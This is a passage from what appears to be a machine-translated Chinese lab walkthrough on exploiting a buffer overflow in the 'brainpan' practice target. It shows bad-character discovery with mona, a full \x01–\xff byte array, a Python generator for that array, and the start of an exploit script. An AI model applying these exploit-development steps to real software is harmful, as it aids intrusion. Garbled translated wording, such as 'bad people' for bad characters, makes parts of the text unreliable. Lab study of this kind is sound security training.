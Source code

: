 ![](img/40b917953f2b474d050b83e180324b94.png)

# ✅发现坏人

首先，用 mona 创建所有十六进制字符，如下所示:

`!mona bytearray -b "\x00"`

> *我们已经创建了除\x00 以外的所有字符，因为它是通用的坏字符*

可以在`C:\mona\brainpan\bytearray.txt`位置找到

```
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

或者我们也可以用 python 创建所有角色，就像这样:

```
all_char=""
for x in range(1, 256):
    all_char+="\\x" + "{:02x}".format(x)
print(all_char)
```

或者我们也可以使用 bad chars pip 模块`pip install badchars`
并生成 all_chracter 十六进制代码，如下:`badchars -f python`

# ✅创建缓冲区溢出脚本:

```
#!/bin/pythonimport sys
import socket
import struct
```